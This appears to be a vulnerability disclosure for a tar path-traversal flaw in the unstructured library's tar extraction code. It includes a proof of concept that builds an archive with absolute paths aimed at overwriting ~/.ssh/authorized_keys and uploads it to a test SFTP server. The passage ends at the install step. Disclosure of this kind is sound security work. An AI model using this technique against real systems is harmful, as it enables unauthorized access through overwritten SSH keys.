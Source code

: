 ```
def uncompress_tar_file(tar_filename: str, path: Optional[str] = None) -> str:
    head, tail = os.path.split(tar_filename)
    for ext in TAR_FILE_EXT:
        if tail.endswith(ext):
            tail = tail[: -(len(ext))]
            break

    path = path if path else os.path.join(head, f"{tail}-tar-uncompressed")
    logger.info(f"extracting tar {tar_filename} -> {path}")
    with tarfile.open(tar_filename, "r:gz") as tfile:
        tfile.extractall(path=path)
    return path
```

The Python documentation explains us that tarfiles may have absolute filenames starting with / which could overwite files in system.

```
Warning: Never extract archives from untrusted sources without prior inspection. 
It is possible that files are created outside of path, 
e.g. members that have absolute filenames starting with "/" or filenames with two dots "..".
```

## Proof of Concept

For simplicity, I use sftp ingest to batch process documents from a test sftp server.

First, let's start a simple sftp server using docker from [`atmoz/sftp`](https://hub.docker.com/r/atmoz/sftp/). The server is listen at my local network `10.15.0.5:2222`

```
docker run -p 2222:22 -d atmoz/sftp foo:pass:::upload
```

Next, create a malicous tar file using following command:

```
tar --absolute-names -czvf hack.tar.gz /home/kali/.ssh/authorized_keys
```

Then, upload `hack.tar.gz` to previously created sftp server. 

```
# login to sftp server, account: foo, password: pass
sftp -P 2222 foo@10.15.0.5

# cd into upload folder
sftp> cd upload

# upload hack.tar.gz
sftp> put hack.tar.gz
sftp> ls -la
-rw-r--r--    1 1000     100          2531 May 29 05:35 hack.tar.gz
```

Install `structrue` and [`structure[sftp]`](https://docs.unstructured.io/open-source/ingest/source-connectors/sftp)(using python3.10):
